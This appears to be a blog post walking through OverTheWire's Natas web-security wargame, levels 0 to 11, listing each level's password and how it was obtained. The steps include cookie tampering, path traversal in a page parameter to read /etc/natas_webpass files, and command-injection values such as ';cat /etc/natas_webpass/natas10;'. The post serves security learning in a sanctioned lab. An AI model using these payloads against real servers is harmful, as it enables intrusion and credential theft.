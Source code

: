 ```yaml
---
title: 'Over The Wire - Natas'
date: '2023-04-19'
tags: ['Info Sec', 'Linux']
draft: false
summary: "Walkthrough of each level of Over the Wire's Natas series. Its a game which helps players master web server vulnerabilities testing"
bibliography: references-data.bib
layout: PostSimple
---
```


## Natas

Natas teaches the basics of server side web-security.
Each level of natas consists of its own website located
`http://natasX.natas.labs.overthewire.org`.

The server is a PHP server.

Topics range from searching through resource files to command injection as a means
compromising the victim machine.

## Level 0

natas0

Search HTML for pw.

## Level 1

Pw in HTML, but must open source with hotkeys

## Level 2

h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7

Pw isn't on the page but a resource file, `users.txt`.

http://natas2.natas.labs.overthewire.org/files/users.txt

## Level 3

G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

Pw isn't inside that file but robots.txt, a disallowed route

`http://natas3.natas.labs.overthewire.org/robots.txt`

`http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt`

## level 4

natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

Use Burp & ProxyFoxy to intercept requests and change them before forwarding to
the server.

The response will include the pw.

## level 5

Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

Use JS console to change document cookie and refresh.

document.cookie="loggedin=1"

## level 6

fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

Checkout a file that is included in the source code that the page points to.
`http://natas6.natas.labs.overthewire.org/includes/secret.inc`

## level 7

jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

We can trick the server into showing us the page at that path using a query parameter.

`http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

## level 8

a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

Use tehplayground.com to reverse engineer the encoded password thats being compared.

## level 9

Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

`https://www.alevsk.com/2020/01/ctf-overthewire-natas9/`

Use command injection

;ls -la;
To see files on the server

;cat /etc/natas_webpass/natas10;

To read from a file on the server

## level 10

D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

Search for this value
a /etc/natas_webpass/natas11

Use the logic of the function to invoke grep command and search for pw in a file
on the server

## level 11

1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
